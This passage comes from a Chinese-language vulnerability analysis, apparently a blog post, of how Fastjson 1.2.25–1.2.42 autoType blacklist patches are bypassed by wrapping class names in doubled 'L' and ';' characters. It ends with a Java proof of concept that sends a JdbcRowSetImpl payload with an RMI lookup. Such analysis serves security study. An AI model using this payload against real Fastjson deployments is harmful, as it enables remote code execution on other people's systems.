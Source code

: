 ![image-20220302161512727](images/4.png)

这里进入了这个elseif，判断是否以L开头，以分号结尾

然后这里去掉开头和结尾的字符得到一个新的newClassName，最后loadClass

接下来后面的流程也是和前面的一样,这样就绕过了这个补丁

# 1.2.25-1.2.42补丁绕过

从1.2.42开始，ParserConfig.java中的黑名单就变为了hash黑名单

![image-20220302163628090](images/5.png)

目的是防止对黑名单进行分析绕过，目前已经破解出来的黑名单见：https://github.com/LeadroyaL/fastjson-blacklist

## 漏洞分析

还是跟进checkAutoType去看看

![image-20220302164043814](images/6.png)

在这个方法中多了一个对className的提取操作,所以再多加上一个`L`和`;`来绕过黑名单

接下来的操作和上面差不多,只是对这些黑名单的判断变为了hash值

![image-20220302164432493](images/7.png)

但是注意到这里执行到TypeUtils.loadClass的时候进入的参数不是className而是typeName

在去除首尾一个字符后还是`Lcom.sun.rowset.JdbcRowSetImpl;`

![image-20220302164639763](images/8.png)

那怎么办呢,继续跟进loadClass，发现可以循环跟进到这个loadClass方法,然后正常的加载类

继续跟进后的参数

![image-20220302164816943](images/9.png)

就和上面一样了,最后正常的loadClass

## 漏洞复现

一样要开启autoTypeSupport

POC

```
package Fastjson.Test;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.ParserConfig;

public class Unser {
    public static void main(String[] argv) throws Exception{
        ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
        String payload = "{\"@type\":\"LLcom.sun.rowset.JdbcRowSetImpl;;\",\"dataSourceName\":\"rmi://localhost:1099/badNameClass\", \"autoCommit\":true}";
        JSON.parse(payload);
    }
}
```

